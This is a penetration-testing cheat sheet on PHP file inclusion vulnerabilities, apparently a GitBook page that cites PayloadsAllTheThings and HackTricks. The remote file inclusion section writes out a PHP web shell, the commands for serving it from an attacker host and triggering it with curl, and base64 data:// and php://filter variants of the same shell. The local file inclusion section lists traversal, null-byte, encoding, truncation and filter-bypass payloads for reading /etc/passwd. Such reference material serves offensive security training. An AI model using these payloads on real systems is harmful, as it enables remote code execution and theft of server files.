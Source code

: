 # File Inclusion

**Local File Inclusion (LFI)** and **Remote File Inclusion (RFI)** are web application vulnerabilities where an attacker can manipulate file paths to include files, either from the local system **(LFI)** or remote servers **(RFI)**, potentially leading to unauthorized access or code execution.

## Remote File Inclusion (RFI)

If we find a way to include a remote file, we could try to include php code to execute commands on the host

```javascript
http://<host>/index.php?page=http://<attacker>/shell.txt
```

We could serve a malicious PHP code so that the host interprets it.

<pre class="language-bash"><code class="lang-bash">echo '&#x3C;?php system($_GET["cmd"]);?>' > shell.txt
python3 -m http.server 80
<strong>curl 'http://&#x3C;host>/index.php?page=http://&#x3C;attacker>/shell.txt&#x26;cmd=&#x3C;comand>'
</strong></code></pre>

If the server were blocking access to external resources, we could attempt to use the `data://` wrapper to inject PHP code as base64.

{% code overflow="wrap" %}
```javascript
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K

php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K
```
{% endcode %}

## Local File Inclusion (LFI)

### Absolute Path

```powershell
http://<host>/index.php?page=/etc/passwd
```

### Relative Path Traversal

```powershell
http://<host>/index.php?page=../../../etc/passwd
```

### Null Byte

```powershell
http://<host>/index.php?page=../../../etc/passwd%00
```

### Encoding

```powershell
http://<host>/index.php?page=%252e%252e%252fetc%252fpasswd
http://<host>/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

### Absolute Path

```powershell
http://<host>/index.php?page=/etc/passwd
```

### Truncation

```powershell
http://<host>/index.php?page=../../../etc/passwd......[ADD MORE]
http://<host>/index.php?page=../../../[ADD MORE]../../../etc/passwd
```

### Filtered characters

```powershell
http://<host>/index.php?page=....//....//....//etc/passwd
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)\
[https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
